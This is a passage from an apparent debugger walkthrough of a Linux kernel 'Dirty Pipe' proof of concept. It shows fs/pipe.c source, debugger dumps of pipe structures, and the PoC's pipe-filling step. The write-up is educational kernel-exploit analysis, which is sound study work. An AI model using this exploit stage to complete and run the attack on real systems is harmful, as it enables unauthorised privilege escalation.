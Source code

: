 ```c
		pipe->user = user;
		mutex_init(&pipe->mutex);
		return pipe;
	}
...
}
```
[`⬀ go to source code`](https://elixir.bootlin.com/linux/v5.17.9/source/fs/pipe.c#L782)

### Debugger

We can print a summary of the freshly initialized pipe (after resizing it) by breaking at the end of `pipe_fcntl()`, which is the handler invoked in the `case F_SETPIPE_SZ:` of the switch statement inside [`do_fcntl()`](https://elixir.bootlin.com/linux/v5.17.9/source/fs/pipe.c#L1392).

```
struct pipe_inode_info at 0xffff8881044aec00
> 'head': 0
> 'tail': 0
> 'ring_size': 1
> 'bufs': 0xffff888101f8a180

struct pipe_buffer at 0xffff888101f8a180
> 'page': NULL
> 'offset': 0
> 'len': 0
> 'ops': NULL
> 'flags':
```
There's not much to see yet, but we keep this as a reference to see how things evolve over time.

## Pipes (reading/writing)

### Writing

After allocating the pipe, the PoC proceeds by writing to it.

```c
void
fill_pipe(int pipefd_w) {
    for (int i = 1; i <= PAGESIZE / 8; i++) {
        if (i == 1) {
            pause_for_inspection("About to perform first write() to pipe");
        }
        if (i == PAGESIZE / 8) {
            pause_for_inspection("About to perform last write() to pipe");
        }
        if (write(pipefd_w, "AAAAAAAA", 8) != 8) {
            exit(1);
        }
    }
}
```
[`⬀ go to source code`](https://github.com/vobst/lkd-cve/blob/main/lkd_examples/dirtypipe/poc.c#L18)
